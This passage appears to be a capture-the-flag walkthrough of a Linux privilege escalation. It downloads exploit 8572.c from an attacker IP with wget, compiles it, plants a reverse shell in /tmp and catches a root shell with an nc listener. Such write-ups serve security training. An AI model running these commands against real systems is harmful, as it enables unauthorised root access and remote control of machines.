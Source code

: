 In the target machine download the exploit file.

```text
wget http://10.10.14.6:5555/8572.c
```

Compile the exploit.

```text
gcc 8572.c -o 8572
```

To run it, let’s look at the usage instructions.

![](https://miro.medium.com/max/677/1*I7M6fBne0AtCu96yQhG2eQ.png)

We need to do two things:

* Figure out the PID of the udevd netlink socket
* Create a run file in /tmp and add a reverse shell to it. Since any payload in that file will run as root, we’ll get a privileged reverse shell.

To get the PID of the udevd process, run the following command.

```text
ps -aux | grep devd
```

![](https://miro.medium.com/max/784/1*4zJv2v2CWRwcyAuQ9PNjIA.png)

Similarly, you can get it through this file as mentioned in the instructions.

![](https://miro.medium.com/max/623/1*JIArJfTIn6IPx7J8jV6NUw.png)

Next, create a **run** file in /tmp and add a reverse shell to it.

![](https://miro.medium.com/max/471/1*SFdTIwhLSQtQX_jdSN7B_Q.png)

Confirm that the reverse shell was added correctly.

![](https://miro.medium.com/max/522/1*-77rPpCHax0hvwOo42FSWA.png)

Set up a listener on your attack machine to receive the reverse shell.

```text
nc -nlvp 4445
```

Run the exploit on the attack machine. As mentioned in the instructions, the exploit takes the PID of the udevd netlink socket as an argument.

```text
./8572 2661
```

We have root!

![](https://miro.medium.com/max/610/1*cW-sxid7icV3oHaN-5w3tQ.png)

We solved this machine in two different ways!
